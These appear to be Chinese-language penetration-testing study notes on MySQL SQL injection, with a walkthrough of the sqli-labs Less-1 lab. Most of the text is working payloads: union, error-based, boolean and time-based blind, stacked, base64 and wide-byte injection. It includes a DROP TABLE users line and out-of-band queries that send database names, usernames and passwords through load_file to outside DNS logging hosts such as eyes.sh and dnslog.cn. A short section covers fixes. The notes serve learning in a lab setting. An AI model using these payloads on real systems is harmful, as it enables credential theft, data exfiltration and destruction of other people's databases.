# SQL注入

| 注入类型         | 描述                                                         | 示例                                                         | 主要目的                   |
| ---------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | -------------------------- |
| **联合查询注入** | 利用`UNION`将额外查询结果与原查询合并，获取更多数据。        | `' UNION SELECT null, username, password FROM users --+`     | 提取额外数据               |
| **报错注入**     | 通过数据库返回的错误信息获取敏感数据或数据库结构信息。       | `' OR 1=1 --+`                                               | 获取数据库结构或数据       |
| **布尔盲注**     | 通过构造查询条件，观察页面响应是否变化，推测数据。           | `' AND 1=1 --` vs `' AND 1=2 --+`                            | 推测数据库内容             |
| **时间盲注**     | 通过引入时间延迟，观察响应时间来判断条件是否成立。           | `' AND IF(1=1, SLEEP(5), 0) --+`                             | 推测数据或验证条件         |
| **数据外带**     | 从一个查询中提取数据，并注入到另一个查询中，通常用于进一步攻击。 | `' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND()*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) --+` | 获取和利用外部数据         |
| **宽字节注入**   | 通过利用字符编码漏洞注入恶意代码。                           | `' OR 1=1 --+`（可能被编码为宽字节）                         | 绕过输入过滤器             |
| **HTTP头注入**   | 在HTTP头中注入恶意代码，可能用于HTTP响应拆分攻击。           | `Header: value/r/nInjected-Header: value`                    | 影响HTTP响应或利用信息泄露 |
| **二次编码注入** | 利用二次编码（如URL编码）绕过过滤器并注入恶意代码。          | `%27%20OR%201%3D1%20--+`                                     | 绕过输入验证               |
| **Base64注入**   | 利用Base64编码来绕过检测，并注入恶意代码。                   | `' OR 1=1 --+`（Base64编码为`JycgT1IgMT0xIC0t`）             | 绕过输入过滤器             |
| **堆叠注入**     | 在一个查询中执行多个SQL命令，通常通过分号分隔。              | `'; DROP TABLE users; --+`                                   | 执行多个SQL命令            |
| **二次注入**     | 在系统的某个地方注入恶意代码，稍后在另一个地方执行。         | 用户注册时注入的代码存储在数据库中，后续在其他地方执行       | 通过存储型注入执行恶意操作 |

### 介绍

- 攻击者将`精心构造的payload`,传递给数据库,数据库`没有严格过滤`直接执行,导致数据库信息被泄露,篡改或者破坏
- 危害:获取数据库存储的`数据`,获取网站的`控制权限`,获取服务器的控制权限,网站挂马
- 产生原因:不当的`类型处理`,不安全的`数据库配置`,不合理的`查询集处理`,不当的错误处理,转义字符处理不合适,多个提交处理不当
- 2个关键条件:用户能`控制输入`的内容,web应用把用户输入的内容,在没经过`过滤`或者`严格筛选`的情况下带入到数据库执行

- 分类:

  - 请求方式

    ```sql
    //GET方式请求注入
    //通常显示在url中,注入点通常出现在url的查询字符串部分
    http://example.com/page?id=1'or '1'='1
    ```

    ```sql
    //POST方式请求注入
    //通过http请求的主体传递,注入点通常在请求体中,不会在url中显示
    POST /login HTTP/1.1
    Host:example.com
    Content-Type:application/x-www-form-urlencoded
    username=admin'--&password=anything
    ```

  - 注入点参数

    ```sql
    //整数型注入
    select name,password,uid from users where uid=$id
    
    //字符型注入
    select name,password,uid from users where uid='$id'
    
    //搜索型注入
    select name,password,uid from users where name like "%$uname%"了;
    ```

  - 注入点反馈类型
    - 1.联合查询-->`union`类型
    - 2.报错注入-->基于错误显示
    - 3.布尔盲注-->布尔类型
    - 4.时间盲注-->基于时间
    - 5.其它注入-->宽字节注入,`header`注入,`base64`,`url`注入,二次注入,堆叠注入
  - 万能密码
    - 原理:使用`构造方式`绕过参数验证
    - 危害:可以在不知道用户密码的情况下,登录到`任意账户`,包括`管理员账户`

### 手工注入

- 适用情况:在`自动化工具无法起作用`或者`情况复杂`时使用

- 流程:判断漏洞

- ```
  //判断是否有注入漏洞
  
  通过注释["--","#"],闭合[']方式
  通过在参数之间使用add,or来对输入进行判断,是否有语句执行
  '1 and 1=1 --+ //正常显示
  '1 and 1=2 --+ //错误显示
  说明存在注入漏洞
  ```

- 识别注入点类型

- ```
  //获取数据库基本信息(数据库版本[version()],数据库类型,回显数据列数等)
  ?id=-1' order by 10 --+ //使用order by [字段数] 查询出字段数
  ?id=-1' union select 1,2,3 --+ //使用union联合查询,找出字段对应输出位置
  
  可以使用内置函数uesr(),version()等在占位符获取数据库信息
  ```

- 获取`数据库名`,`表名`,`列名`,`用户数据`

- 破解加密数据

- 提升权限

- 内网渗透

### 联合查询

- 定义:使用`拼接联合方式`将2组或多组关键值`拼凑起来`进行查询

- 使用:多条查询语句的`查询列数和数据类型必须一致`,union关键字`默认去重`,如果使用union all 可以包含重复项

- 前提:页面必须要有`显示位`

- 流程:

- ```sql
  //判断注入点
  1 and 1=1 --+	//整型注入点
  1 and 1=2 --+ 	//整型注入点
  1'or '1'='1		//字符型注入点
  1'or '1'='2		//字符型注入点
  
  //判断列数,使用order by判断字段数(二分法)
  1'order by 1 --+ 
  1'order by n --+
  1'or 1=1 order by n --+ 
  
  //将多条查询语句结果合并成一个结果集
  查询语句1
  union
  查询语句2
  union
  查询语句3
  
  //判断显示位
  1'union select 1,2 --+
  -1'union select 1,2 --+		//使用-1来使union前半语句无查询返回值
  
  //查看数据库信息
  user()	//返回当前使用数据库的用户
  version() //返回当前数据库版本
  database() //返回当前使用的数据库名字
  
  //查看表及列名(系统内置数据库information_schema存储其它所有数据库信息)
  schema表:存放所有数据库中的表信息
  tables表:存储数据库中的表信息
  columns表:存储数据库中的列信息,包括表有多少列
  
  //显示所有数据库的信息并显示数据库名
  -1'union select schema_name,2 from information_schema.schemata --+
  
  -1'union select database(),2#
  
  //获取数据库为 liuyanban 的所有信息并显示表名
  -1'union select table_name,column_name from information_schema.tables where table_schema='liuyanban' --+
  
  //选取数据库为 liuyanban 表为 liuyan 的所有字段并显示表名和字段名
  -1'union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' --+
  ```

- 字符串拼接

- ```sql
  //concat(),将多个字符串链接成为一个字符串
  -1'union select 1,concat(id,email_id),3 from emails --+
  
  //concat_ws(),将多个字符串连接成一个字符串,可以指定分割符
  -1'union select 1,concat_ws('_',id,email_id),3 from emails --+
  
  //group_concat(),将多行结果连接成一组
  -1'union select 1,group_concat(email_id),3 from emails --+
  ```

- 获取详细信息

- ```sql
  1'union select 1,concat(usermpassword) from users --+
  1'union select 1,concat_ws("_",user,password) from users --+
  
  //获取数据库列表
  -1'union select schema_name,2 from information_schema.schemata --+
  
  //获取指定表
  -1'union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' --+
  
  //获取表的字段信息
  -1'union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' --+
  
  //获取字段内容
  -1'union select 1,concat_ws("_",username,password) from admin --+
  ```

### 报错注入

- 概念:利用数据库的某些机制,人为的制造出错误条件,使得查询结果能够出现在报错信息中,想办法让错误信息中可以显示数据库的内容

- 基本手法

- ```sql
  //extractvalue(arg1,arg2)-->arg1:xml文档,arg2:xpath语句,至少接收两个参数
  //mysql5.1以上
  
  1'and extractvalue(1,concat(0x3a,user(),0x3a) --+
  
  //在报错信息中查询出
  1'and extractvalue(1,arg2) --+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```sql
  //update(arg1,arg2,arg3),arg1为xml文档,arg2为指定位置的xpath字符串,arg3为string格式的新值
  
  1'and updatexml(1,concat(0x3a,(select user()),0x3a),1) --+
  
  1'and updatexml(1,arg2,1)--+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```
  //floor,返回向下取整的整数,只返回arg1的整数部分
  
  1'and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) --+
  
  1'and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) --+
  ```

- `floor()`报错准确的说是`floor`,`count`,`group by`冲突报错,`count(*)`,`rand()`,`group by`三者缺一不可

- ```sql
  1'and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
  ```

- ```SQL
  floor():向下取整
  rand():在0-1产生一个随机数
  floor(rand()*2):对生成的0-2直接按的随机数进行向下取整,2条记录可能报错
  floor(rand(0)*2):记录需要为3条以上,且三条以上必报错
  count(*):统计记录条数,包括null值
  group by:对数据进行分组,存在则count(*)+1,不存在则在虚拟表中插入一条数据	
  ```

- 其它报错注入

- ```sql
  //name_const,支持mysql5.0不支持5.1
  //name_const(name,value),当用来产生一个结果集合时,name_const()促使该列时使用给定名称
  
  1'and (select * from (select name_const(version(),1),name_const(version(),1))a) --+
  ```

- ```sql
  //整型溢出exp,mysql低于5.5.5
  //exp是以e为底的指数函数,由于数字太大会溢出,该函数会在参数大于709是溢出,产生报错
  
  //只有mysql5.5.29才能正常显示
  1'and exp(~(select*from(select version())a)) --+
  ```

- ```sql
  //几何函数,高版本的mysql无法得到数据,目前只有mysql5.5.29和5.1.60能得到正确输出
  geometrycollection(),multpoint(),polygon(),multipolygon(),linestring(),multilinestring()
  
  1' and
  	(select multipoint(
  		(select * from
  			(select * from
  				(select * from
  					(select version())a
  					)b
  				)c
  			)
  		)
  	) -- qwe
  ```

- ```sql
  //json报错,获取json值的类型,当我们传入的值不属于json格式时则报错
  //json_type(version())
  1'and json_type(version())%23 --+
  
  //json_extract(json_doc,path[,path]) --+
  //从json_doc中读取数据,和path的参数匹配,第一个或第二个参数不是json格式就会报错
  1'and json_extract(user(),'$.a') --+
  1'and json_extract('[1,2,3]',user()) --+
  
  //json_arary_append(json_doc,path,val[,path,val]...),
  //将值附加到json文档中指定数组的末尾并返回结果
  //报错输出原理和 json_extract函数相同
  ```
  
  

### 基本步骤

- 查看数据库版本

```sql
1'and extractvalue(1,concat(0x3a,(select version()),0x3a)) --+
```

- 查看数据库名字

```sql
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```

- 查看数据库表

```sql
1' and extractvalue(1,concat(0x7e,(select count(table_name) from
information_schema.tables where table_schema=database()),0x7e)) --+
```

- 查看数据库有哪些表

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from
information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```

- 查看表中的字段名

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from
information_schema.columns where table_schema=database() and table_name='emails'
limit 0,1),0x7e)) --+
```

- 查看表里的数据

```sql
1' and extractvalue(1,concat(0x7e,(select
group_concat(concat_ws('___',id,email_id)) from information_schema.columns where
table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### sql盲注

- 概念:服务器不会直接返回具体的数据库,只会返回程序开发所设定的特定信息
- 页面`不会直接显示`sql执行的结果

### 布尔盲注

- ```sql
  //布尔盲注:在进行sql注入时,web页面只返回True和False
  //通过对返回对返回True或False的情况对数据库的信息进行猜解
  
  //相关函数:substr(),substring(),mid()
  //用于长度截取某一列字段的一部分,在各个数据库中的名称不一样
  //substr(arg1,int1,int2)，int1为截取开始位置(从1开始计算)，int2为截取长度，其余用法完全一样
  1. substr()
  2. substring()
  3. mid()
  select substr(database(),1,3)
  
  //select length(database())-->获取数据库长度
  //select asicc('a')-->将单一字符转化成ascii码
  //条件判断:select if(length(database())>0,1,0)
  ```

- ```sql
  //使用步骤
  
  ①获取数据库名长度
  1' and (length(database()))=n --+ //n为数据库名长度
  
  ②获取数据库名称
  1' and (ascii(substr(database(),n,1))=m) --+ //n为第几个位置，m为ascii码
  [65,122]
  
  ③获取表名长度
  1' and (length((select table_name from information_schema.tables where
  table_schema=database() limit 0,1))=m) --+
  //m为表名长度
  //获取表的个数
  1' and (select count(*) from information_schema.tables where
  table_schema=database())=m -- qwe //m为表的个数
  
  ④获取表名
  1' and (ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m) --+ //n为表名的第几个位置，m为
  ascii范围[65,122]
  
  ⑤获取字段长度
  1' and (length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=m) --+ //m为字段名长度
  //获取字段个数
  1' and ((select count(*) from information_schema.columns where
  table_schema=database() and table_name='表名')=m) --+ //m为表的个数
  
  ⑥获取字段名
  1' and (ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+ //n为字
  段名的位置，m为ascii范围[65,122]
  
  ⑦获取数据
  select 字段 from 表时间盲注
  ```

### 时间盲注

- ```sql
  //时间盲注
  //sleep()
  select if(1=1,sleep(10),0)
  
  //benchmark(arg1,arg2)-->arg1是执行次数,arg2是执行的表达式
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

- ```sql
  //使用步骤
  
  ①获取数据库名长度
  1' and if((length(database()))>5,sleep(10),0) --+
  
  ②获取数据库名称
  1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+ //65<=m<=122
  
  ③获取表名长度
  1' and if(exp1,sleep(10),0) --+
  exp1= length((select count(table_name)from information_schema.tables where
  table_schema=database() limit 0,1))
  综上：
  1' and if(length((select table_name from information_schema.tables where
  table_schema=database() limit 0,1))=m,sleep(10),0) --+ //m为表名长度
  
  ④获取表的个数
  1' and if(exp1,sleep(10),0) --+
  exp1= select count(*) from information_schema.tables where
  table_schema=database())=m
  综上:
  1' and if((select count(*) from information_schema.tables where
  table_schema=database())=4,sleep(10),0) --+ //m为表的个数
  
  //获取表名
  1' and if(exp1,sleep(10),0) --+
  exp1= ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m
  综上：
  1' and if(ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+ //n为表名的第
  几个位置，m为ascii范围[65,122]
  
  ⑤获取字段长度
  1' and if(length(),sleep(10),0) --+
  exp1= length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=m
  综上：
  1' and if(length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+
  //m为字段名长度
  //获取字段个数
  1' and if((select count(*) from information_schema.columns where
  table_schema=database() and table_name='表名')=m,sleep(10),0) --+ //m为表的个数
  
  ⑥获取字段名
  1' and if(exp1,sleep(10),0) --+
  exp1= ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m
  综上：
  1' and if(ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+
  //n为字段名的位置，m为ascii范围[65,122]
  
  ⑦获取数据
  
  ```

### 数据外带

- 概念:如果SQL注入仅能使用**时间盲注**，可以使用**OOB(out of band)**,将sql语句执行的结果以数据的形式外带出来
- 条件:`Windows`操作系统、`mysql`的全局变量`secure_file_priv`不为`null`
- dnslog平台

| **网址**               | 介绍                          |
| ---------------------- | ----------------------------- |
| http://dnslog.cn/      | 仅支持DNS数据外带             |
| http://eyes.sh/        | 支持DNS和HTTP两种数据外带方式 |
| Burpsuite Collaborator | 支持DNS和HTTP两种数据外带方式 |
| ceye.io                | ..........                    |

- 应用场景

| 方式                                  | 简介                  |
| ------------------------------------- | --------------------- |
| secure_file_priv                      | 拥有读写权力          |
| secure_file_priv=""                   | 可以读取任何目录      |
| secure_file_priv='/var/www/html'      | 可以读取指定文件      |
| secure_file_priv=null                 | 不能加载文件          |
| show global variables like '%secure%' | 查看mysql是否有写限制 |

- 有写限制，则打开mysql的配置文件`my.ini`，在`mysqld`一栏添加 `secure_file_priv=""`

- DNS数据外带:

- 在极限条件**(内网机器不出网，支持**dns出网**)，**61长度限制，不支持敏感符号(@#$%)，外带数据需要转码，规避流量监测设备

- SMB数据外带:`默认支持TCP/UDP出网方式时可用，无长度限制和符号限制`，规避流量监测设备

- ```liunx
  //centos7上安装SMB服务
  
  1. 安装smb服务
  yum install samba -y
  2. 修改配置文件
  vim/etc/samba/smb.conf
  3. 修改samba日志路径
  /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

- payload

- ```sql
  1' and load_file(concat('////192.168.172.130//',(select user()),'t'))%23
  1' and load_file(concat('////192.168.172.130//',(select
  group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```

- HTTP数据外带

- ```cmd
  //以DNS数据外带为例
  
  load_file(concat('////',查询内容,'.网址//abc')
  or
  load_file(concat('//',查询内容,'.网址/abc') # /abc指定外部路径
  ```

- ```sql
  //实例
  
  1.获取数据库名
  select * from users where id=1 and load_file(concat('////',(select
  database()),'.54uekpz5.eyes.sh//abc'));
  2.获取表名
  select * from users where id=1 and load_file(concat('////',(select
  group_concat(table_name separator '_') from information_schema.tables where
  table_schema=database()),'.Laffrex.eyes.sh//abc'));
  3.获取字段名
  select * from users where id=1 and load_file(concat('//',(select
  group_concat(column_name separator '_') from information_schema.columns where
  table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
  4.获取字段数据
  select * from users where id>0 and load_file(concat('//',(select
  group_concat(concat_ws('_',id,username,password) separator '__') from
  information_schema.columns where table_schema=database() and
  table_name='users'),'.Laffrex.eyes.sh/abc'));
  ```

- 基本步骤

- ```sql
  ①获取数据库名
  1' and load_file(concat('////',(select database()),'.Laffrex.eyes.sh//abc')) --+
  
  ②获取表名
  1' and load_file(concat('////',(select group_concat(table_name separator '_')
  from information_schema.tables where
  table_schema=database()),'.Laffrex.eyes.sh//abc')) --+
  
  ③获取字段名
  1' and load_file(concat('//',(select group_concat(column_name separator '_') from
  information_schema.columns where table_schema=database() and
  table_name='users'),'.f1ylqx.dnslog.cn/abc')) --+
  
  ④获取字段数据
  
  //获取id
  1' AND load_file(CONCAT('////',(SELECT group_concat(id separator '__') FROM
  users),'.Laffrex.eyes.sh/abc')) --+
  //获取username
  1' AND load_file(CONCAT('////',(SELECT SUBSTRING(group_concat(username separator
  '__'), 1, 60) FROM
  users),'.Laffrex.eyes.sh/abc1')) --+ //本次字符最大长度为63
  1' AND load_file(CONCAT('////',(SELECT SUBSTRING(group_concat(username separator
  '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+
  1' AND load_file(CONCAT('////',(SELECT
  substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45)
  FROM users),'.Laffrex.eyes.sh/abc')) --+ //本次字符最大长度45
  ```

### 宽字节注入

- 概念:宽字节是指`2个字节宽度`的编码技术

- 原因:set character_set_client="gbk"

- mysql在使用`GBK`编码时，**符合条件**会认为`2个字符`是`1个汉字`

- 第一个字节`129-254`，第二个字节为`64-254`

- 原理:程序员会对**特殊字符**(例如单引号)进行**正则匹配使其失效**，这时无法使用普通注入

- 方法:

  ```
  //黑盒
  在注入点后键入%df，再开始正常注入
  键入字符的ASCII要大于128，才能和反斜杠 “/” 组合成一个汉字
  
  //白盒
  查看Mysql编码是否为GBK
  是否使用了preg_replace进行正则替换
  是否使用了addslashes()进行转义
  是否使用了mysql_real_escape_string()进行转义
  ```

- 宽字节注入修复

- ```php
  //编码设置
  Mysql_query("SET
  character_set_connection=gbk,character_set_result=gbk,character_set_client=binary
  ",$conn);
  ```

- ```php
  //过滤函数
  mysql_real_escape_string()/addslashes()
  ```

### HTTP头注入

- **常见污染参数**

  

- $_SERVER:包含诸多http信息的数组

### 二次编码注入

```sql
-1%2527 union select 1,(select group_concat(table_name) from
information_schema.tables where table_schema=database()),database() -- qwe

-1%2527
```

### Base64注入

```sql
admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
base64编码后：
YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd
2U=
```

### 堆叠注入

```sql
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from
information_schema.columns where table_schema=database() and
table_name='users'),database() -- qwe
//获取字段内数据
-1' union select 1,(select group_concat(concat_ws('_',username,password)) from
users),database() -- qwe
```

### 二次注入

```sql
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#
1' order by 5#
1' union select 1,2,3,4,5#
1' union select 1,database(),3,4,5#
1' union select 1,(select table_name from information_schema.tables where
table_schema=database()),2,3,4,5#
1' union select 1,user(),3,4,5#

select * from users where id= {id}
select * from users where id= '1' and select database()'
id= 1 and 1=1 --+
id= 1 and 1=2 --+
```


### 使用 `information_schema` 数据库

```sql
USE information_schema;
```

### 查看 `information_schema` 数据库中的所有表

```sql
SHOW TABLES;
```

### 查看所有表中的所有字段

```sql
SELECT column_name FROM information_schema.columns;
```

### 查询 `msgboard` 表中的所有字段

```sql
SELECT COLUMN_NAME 
FROM information_schema.COLUMNS 
WHERE TABLE_NAME = 'msgboard';
```

### 使用 `concat()` 函数拼接多个字符串

```sql
SELECT CONCAT('M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------+
| concat('M','y','S','Q','L') |
+-----------------------------+
| MySQL                       |
+-----------------------------+
```

### 使用 `concat_ws()` 函数拼接多个字符串

```sql
SELECT CONCAT_WS('', 'M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------------+
| concat_ws('','M','y','S','Q','L') |
+-----------------------------------+
| MySQL                             |
+-----------------------------------+
```

### 使用 `group_concat()` 函数将多行连接成一组

```sql
SELECT GROUP_CONCAT(actor) 
FROM moviesdata.allmovies;
```

### SQL 注入示例

```sql
1'union select 1,table_name from information_schema.tables where table_schema='msgboard' -- qwe
```

# SQL注入技巧与示例

## 1. 基于报错的SQL注入

### 1.1 使用 `extractvalue` 提取表名

```sql
http://192.168.77.131/master/Less-1/?id=1' and (extractvalue(1, concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a))) --+
```

- **`updatexml(arg1, arg2, arg3)`** 和 **`extractvalue(arg1, arg2)`** 可以用于报错注入。

- **`arg2` 参数：**

  ```sql
  concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a)
  ```

- 最终的payload

  ```sql
  http://192.168.77.131/master/Less-1/?id=1'and extractvalue(arg1,arg2)
  
  http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
  ```

  以上代码用于在页面中显示当前数据库中的所有表名。

### 1.2 使用 `floor` 函数进行报错注入

- **解释:**``floor报错注入``准确的说应该是``floor``,``count``,``group by``冲突报错,``count(*)``,三者缺一不可

- **示例公式：**

  ```sql
  and select 1 from (select count(*), concat(database(), floor(rand(0)*2)) x from information_schema.tables group by x) a
  ```

- **关键函数解析：**

  - **`floor()`**：取整函数
  - **`rand()`**：生成0和1之间的随机数
  - **`floor(rand(0)*2)`**：当记录数大于等于3时，必定报错且返回值有规律

### 1.3 详细解释

1. **`floor(rand()*2)` 随机输出0或1，有两条记录时可能会报错：**

   - **`rand()`**：生成0和1之间的随机数
   - **`floor(rand()*2)`**：乘以2后取整，结果只能是0或1

   由于`rand()`生成的随机数不同，可能会导致`group by`查询中出现两个不同的分组值，从而引发报错。

2. **`floor(rand(0)*2)` 记录需为3条以上，且3条以上必报错，返回值有规律：**

   - 使用种子为0的`rand(0)`函数，每次调用都会产生相同的随机数，导致所有记录的分组键相同，从而在`group by`时触发报错。

## 2. 布尔盲注

### 2.1 获取数据库名称

1. 判断数据库名长度为8：

   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (length(database()))=8 --+
   ```

2. 逐个字符猜测数据库名，最后得出数据库名为 `security`。

### 2.2 获取数据库表名

1. 获取当前数据库中的表数量：

   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
   ```

2. 获取第一个表名：

   ```sql
   select table_name from information_schema.tables where table_schema=database() limit 1,1;
   
   substr(表名,1,1)> < = ascii
   ```

   使用`limit`和`substr`逐字猜解表名。

3. 获取数据

   

## 3. 时间盲注

### 3.1 基于时间的盲注示例

- 如果数据库名长度大于0，则延迟10秒：

  ```sql
  if(length(database())>0, sleep(10), 1)
  ```

- 逐字猜测表名并延迟响应时间：

  ```sql
  if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1))=100, sleep(10), 1)
  ```

### 报错注入

- 获取数据库名(security)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```


- 获取表名(emails,referers,uagents,users)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
```


- 获取字段名(id,username,password)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```


- 获取数据(好像只能获取2两条数据)

```sql
http://192.168.77.131/master/Less-1/
?id=1' and extractvalue(1, concat(0x3a,(select group_concat(id, 0x3a, username, 0x3a, password) from security.users),0x3a)) --+
```



- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```


### 布尔盲注

- 判断数据库名字长度(使用``<``,``>``,``=``判断,过程省略了,这里判断为8-->``security``)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (length(database()))=8 --+
```


- 构造pyload进行密码爆破(使用burp)






- 开始攻击


- 根据顺序得到--> 115 101 99 117 114 105 116 121 即为:``security``

- 然后开始获取数据库表的``数目``(跟前面判断数据库的字符数是一样的,这里有``4张``表)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个表的``表名长度``(6个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 0,1) =6--+
```

- 获取第二个表的``表名长度``(8个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 1,1) =8 --+
```

- 获取第三个表的``表名长度``(7个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 2,1) =7 --+
```

- 获取第四个表的``表名长度``(5个字段)-->``users``

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 3,1) =5 --+
```

- 获取``表名``--> 117 115 101 114 115 即:``users``

